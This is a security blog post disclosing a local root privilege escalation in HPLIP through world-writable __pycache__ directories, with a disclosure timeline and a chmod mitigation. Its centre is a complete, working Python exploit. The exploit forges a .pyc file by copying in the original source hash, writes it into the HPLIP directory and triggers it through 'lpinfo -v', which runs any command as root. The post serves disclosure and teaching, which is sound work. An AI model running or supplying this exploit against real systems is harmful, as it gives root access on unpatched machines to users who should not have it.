

=============================
Privilege escalation in HPLIP
=============================

**tl;dr**: Default installations of HPLIP version 3.19.6 and below are
vulnerable to a local privilege escalation 0-day that is important but not
critical due to its setup. It is due to a world-writable directory containing
compiled python files.

The end of good old /tmp symlink privilege escalation
=====================================================

I like file-based privilege escalations, so much so that I already did two
articles around them `here </scr_privesc.html>`_ and `there
(FR) </mail_local_tocttou.html>`_. These bugs are always nice: tricky but
understandable, fun yet exploitable and of course powerful.

The old and most common idea is to trick a privileged program into reading or
writing the file of your choice by guiding it through a symlink at just the
right time. It can happen if using a temporary file in a world-writable
directory such as /tmp for example since anyone can create a file there with
the expected name.

Well, that's the way it used to go at least. But now there's a new sheriff in
Linux town: `/proc/sys/fs/protected_symlinks
<https://sysctl-explorer.net/fs/protected_symlinks/>`_. That bad boy forbids
any process to follow a symlink placed in a sticky world-writable directory
such as /tmp unless the owners match. Its deputy,
`/proc/sys/fs/protected_hardlinks
<https://sysctl-explorer.net/fs/protected_hardlinks/>`_, finishes the job by
forbidding the creation of hard links to files you do not own.

All joke aside, those are great security features that effectively and
proactively block many privilege escalation bugs (especially considering the
number of sysadmin scripts I've seen that run as root while manipulating
files in /tmp).

However protected_symlinks only protects sticky directories and only against
link attacks. World-writable directories are still a weak point where we can
remove existing files and create our owns.

Vulnerability discovery
=======================

A few month ago I decided to look for world-writable directories on my system
to get an idea of my exposure. This is a simple find command from which two
directories emerged:

.. code:: sh

    $ find / -type d -perm -007
    …
    /usr/share/hplip/prnt/__pycache__
    /usr/share/hplip/base/pexpect/__pycache__
    …

HPLIP (HP Linux Imaging and Printing) is an HP Inc project that proposes
better integration of HP products on Linux.

.. image:: ../image/gekkan_shoujo_peek.png

They contained compiled python files, bytecode files that are produced when
importing a library and cached for performance. Since they're loaded on
subsequent access they're effectively executables.

::

    /usr/share/hplip/base/pexpect/__pycache__:
    total 128
    -rw-r--r-- 1 root cups 65211 Jul 13  2018 __init__.cpython-36.pyc
    -rw-r--r-- 1 root cups 63065 Jun  4 07:17 __init__.cpython-37.pyc

    /usr/share/hplip/prnt/__pycache__:
    total 92
    -rw-r--r-- 1 root cups 22289 Jul 13  2018 cups.cpython-36.pyc
    -rw-r--r-- 1 root cups 22236 Jun  4 07:17 cups.cpython-37.pyc
    -rw-r--r-- 1 root cups   116 Jul 13  2018 __init__.cpython-36.pyc
    -rw-r----- 1 root cups   120 Jun  5 07:27 __init__.cpython-37.pyc
    -rw-r--r-- 1 root cups  8934 Jul 13  2018 ldl.cpython-36.pyc
    -rw-r--r-- 1 root cups 12439 Jun  4 07:17 ldl.cpython-37.pyc
    -rw-r--r-- 1 root cups  1522 Jul 13  2018 pcl.cpython-36.pyc
    -rw-r--r-- 1 root cups  2116 Jun  4 07:17 pcl.cpython-37.pyc

Later investigation showed that these files were imported by HPLIP on
different occasions. It seemed related to listing available printers in CUPS
notably when adding a new one, but later investigation showed that using
*lpinfo -v* removes the need to use the CUPS web interface.

So we have a bunch of executables owned by root in a directory that any user
can mess with and that can be triggered by poking the CUPS server, what could
go wrong?

Exploitation
============

The basic idea is as follow:

- Write our own compiled python file that runs a command of our choice
- Replace one of the HPLIP PYC file with our own
- List printers through lpinfo
- Drink to our success as our PYC file is executed with root privileges

Easy right? Quite: there are two problems we need to take care of beforehand.
The first one is that listing printers in CUPS can only be done by someone in
the **sys** group. From there on we'll assume that our user in in that group.

We can verify easily that HPLIP files are executed by deleting the content
of /usr/share/hplip/prnt/__pycache__ (don't worry, it's only cache) and
executing *lpinfo -v*. We see that the four files are recreated. Replacing
any of these file by our own would trigger the issue.

The other real issue is to write our own PYC file. Of course we could study
the file format but it's much easier to ask python to compile our source file
directly. This can be done using the standard library module **py_compile**.

.. code:: python

    import py_compile
    open("/tmp/test.py", "w").write("print('Hello')")
    py_compile.compile("/tmp/test.py")
    # /tmp/__pycache__/test.cpython-37.pyc

This seems easy enough, but if we try we quickly notice that it doesn't work
as expected: python completely ignores our PYC file, removes it and writes his
own. And thinking about it it's normal: this is a cache file, it must have
some way to check that the original source file wasn't changed. Since our PYC
doesn't correspond to the original file python assumes that the source file
has been changed and recompiles it.

Armed with that idea we start looking for a hash of the source file in the
compiled one. Sure enough, after some trial and errors, bytes 8 through 16
correspond to a hash. Which one? I didn't care to find out, I just copied the
original PYC's hash into my own and it was properly executed when calling
HPLIP.

.. image:: ../image/gekkan_shoujo_quickvic.png
    :width: 40%

Exploit
=======

Here is the final exploit in all its splendor, tried on a stock Manjaro
installation which has HPLIP and cups running by default, from a user named
"test" whose only groups were *sys test*.

.. code:: python

    #!/usr/bin/env python3

    import os
    import subprocess
    import py_compile
    import tempfile
    import base64
    import requests

    def check_dir(path):
        if not os.path.isdir(path):
            return None

        pycache_path = os.path.join(path, "__pycache__")

        if not os.path.exists(pycache_path):
            trigger_add_printer()

        if os.access(pycache_path, os.W_OK):
            return pycache_path
        return None

    def pyc_compile_file(path):
        fo = tempfile.mktemp()
        py_compile.compile(path, cfile=fo)
        result = open(fo, "rb").read()
        os.remove(fo)
        return result

    def pyc_get_hash(filename):
        # If necessary, add-printer once to pre-load pyc files
        if not os.access(filename, os.R_OK):
            init_path = os.path.join(os.path.dirname(os.path.dirname(filename)),
                                     "__init__.py")
            content = pyc_compile_file(init_path)
        else:
            content = open(filename, "rb").read()
        return content[8:16]

    def pyc_content(cmd, pyc_hash):
        content = 'import os\nos.system(""" %s """)' % cmd
        fi = tempfile.mktemp()
        open(fi, "wb").write(content.encode("utf8"))
        raw = pyc_compile_file(fi)
        os.remove(fi)
        return raw[:8] + pyc_hash + raw[16:]

    def main():
        if len(os.sys.argv) < 2:
            print("Usage: %s CMD" % os.sys.argv[0])
            return 1

        cmd = os.sys.argv[1]

        print("[+] Check that /usr/share/hplip/ contains 777 directories")
        vulnerable_dir = (check_dir("/usr/share/hplip/prnt") or
                          check_dir("/usr/share/hplip/base/pexpect"))

        if vulnerable_dir is None:
            print("[!] hplip not available or not vulnerable")
            return 1
        print("[-] Found: %s" % vulnerable_dir)

        print("[+] Write and compile an __init__.py file")
        init_file_name = sorted(filename
                                for filename in os.listdir(vulnerable_dir)
                                if "__init__" in filename)[-1]

        init_file_path = os.path.join(vulnerable_dir, init_file_name)

        print("[+] Recover the original pyc hash")
        pyc_hash = pyc_get_hash(init_file_path)

        print("[+] Write the new pyc file in the vulnerable directory")
        os.remove(init_file_path)
        open(init_file_path, "wb").write(pyc_content(cmd, pyc_hash))

        print("[+] Call lpinfo to list printers and trigger command")
        if subprocess.call(["lpinfo", "-v"]) != 0:
            print("[!] lpinfo failed, are you in the 'sys' group?")
            return 1

        print("[+] Success (probably)!")
        return 0

    if __name__ == "__main__":
        main()

.. image:: ../image/gekkan_shoujo_victory.png
    :width: 40%

Impact and follow-up
====================

Privilege escalations should never be treated lightly but they require to
already have access to the system. Furthermore access to the *sys* group
is seldom given to users that aren't already part of the sudo group. If that
situation arises though then this exploit is quite effective.

At the moment Manjaro releases at least are vulnerable out of the box and **no
patch exists**. I've tried several times to alert the HP team behind HPLIP of
this issue but received no answer. Following the common 90 days deadline I'm
releasing this in the wild in hope to alert users and manufacturers alike.

The only local fix I know is to remove all access to /usr/share/hplip for
users that aren't in the correct group. It might have unforeseen effects, but
simply deleting or changing the rights of the *__pycache__* directories is
useless: HPLIP automatically changes the rights back to 777.

.. code:: bash

    sudo chmod 750 /usr/share/hplip

Timeline
--------

- 2019/06/04: Discovery
- 2019/06/06: First mail to HP — No answer
- 2019/08/29: Second mail to HP — No answer
- 2019/09/06: Third mail to HP — No answer
- 2019/12/06: Public disclosure

.. image:: ../image/gekkan_shoujo_grumpy.png
    :width: 40%

Image sources
-------------

- https://www.nicepng.com/ourpic/u2q8q8t4r5t4y3o0_anime-shit-ura-omote-fortune-gekkan-shojo-nozaki/
- https://boards.fireden.net/a/last/50/165510639/
- https://picsart.com/i/sticker-anime-animegirl-gekkan-shoujo-nozaki-kun-nozaki-235098356053212
- https://knowyourmeme.com/photos/830115-gekkan-shoujo-nozaki-kun-monthly-girls-nozaki-kun
